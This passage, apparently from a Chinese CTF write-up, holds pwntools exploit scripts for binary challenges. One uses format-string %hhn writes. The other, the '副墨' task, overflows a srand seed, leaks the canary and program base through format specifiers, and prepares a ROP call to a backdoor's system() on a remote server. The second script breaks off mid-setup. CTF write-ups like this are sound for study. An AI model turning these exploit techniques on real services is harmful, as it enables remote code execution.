 ```python
for i in range(6):
    add(('%'+str(ord(data[i])-7)+'c'+'%c'*7+'%hhn').ljust(0x18,'a')+p64(ooo+i),True)

add(('%249c'+'%c'*7+'%hhn').ljust(0x18,'a')+p64(0x6020f4),True)

print(hex(base))
print(hex(system))
p.interactive()

```



### 副墨

这个题感觉自己有点非预期。太久没做栈溢出有点蠢。首先发现srand的seed是可以溢出改掉的，这意味着后面的rand猜10个数毫无意义。接下来就是官方后门：给了一个格式化字符串和栈溢出。用格式化字符串泄露canary和程序基址，之后就找一个binsh的地址给rdi去调用官方后门pwn的system就好了。一个比较正确的做法应该是用csu来打ROP（队里另一个师傅说的），但我写的时候强行leak了libc的地址，然后用libc里的binsh来给rdi去调用system（为什么我不直接one gadget呢？）。而且leak libc还贼麻烦，对着服务器试了好久才找到对应版本的libc。

```python
from pwn import*
context.log_level = 'debug'
context.arch = 'amd64'

lt = [0x173db,0x12fc9,0x23bc,0xabb7,0xdfbf,0x11294,0xc09c,0xff2a,0x9101,0x5b55]

debug = 0
if debug:
	p = process('./bf.bak')
	gdb.attach(p)
else:
	p = remote('111.33.164.4',50001)

def se(x):
	p.send(x)

def sl(x):
	p.sendline(x)

def ru(x):
	p.recvuntil(x)

ru('game?\n')
raw_input()
sl('1')
ru(':')
#payload = "%17$p%11$p%p"
payload = "%17$p%23$p%p"
se(payload.ljust(0x20,'a'))
#sl(payload)
for i in range(10):
	ru(':')
	sl(str(lt[i]))
ru('0x')
canary = int(p.recv(16),base = 16)
print(hex(canary))
ru('0x')
base = int(p.recv(12), base = 16)
#base = base -0xd50
base = base - 0xabf
backdoor = base + 0xab3
rdi_p = base + 0x0000000000000db3
rsi_r15_p = base + 0x0000000000000db1
bss = base + 0x202089
puts = base + 0xbae
```